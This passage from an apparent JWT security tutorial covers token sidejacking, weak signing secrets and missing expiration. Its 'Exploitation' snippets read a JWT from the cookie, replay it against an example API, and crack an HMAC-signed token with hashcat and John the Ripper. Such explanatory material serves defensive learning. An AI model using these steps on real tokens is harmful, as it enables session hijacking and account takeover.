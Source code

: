 ### 3. Token Sidejacking (Missing Proper Binding)

JWTs can be stolen and reused if not properly bound to the client.

**Exploitation:**
```javascript
// Attacker steals JWT from victim via XSS, Man-in-the-Middle, etc.
const stolenToken = document.cookie.match(/jwt=([^;]+)/)[1];

// Attacker uses token in their own requests
fetch('https://api.example.com/sensitive-data', {
  headers: {
    'Authorization': `Bearer ${stolenToken}`
  }
});
```

### 4. Weak Secret Keys

JWTs signed with weak secret keys can be cracked through brute force or dictionary attacks.

**Exploitation:**
```bash
# Using hashcat to crack a JWT
hashcat -a 0 -m 16500 "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c" wordlist.txt

# Using john the ripper
john jwt.txt --format=HMAC-SHA256 --wordlist=wordlist.txt
```

### 5. Missing Expiration Validation

JWTs without expiration times or with improperly validated expiration remain valid indefinitely.

```json
// JWT payload without expiration
{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
  // Missing "exp" claim
}
```

**Exploitation:**
```javascript
// Token captured once will work indefinitely if exp is missing
const stolenToken = "eyJhbGciOi..."; // Token without expiration

// Can be used months or years later if not invalidated
fetch('https://api.example.com/data', {
  headers: { 'Authorization': `Bearer ${stolenToken}` }
});
```
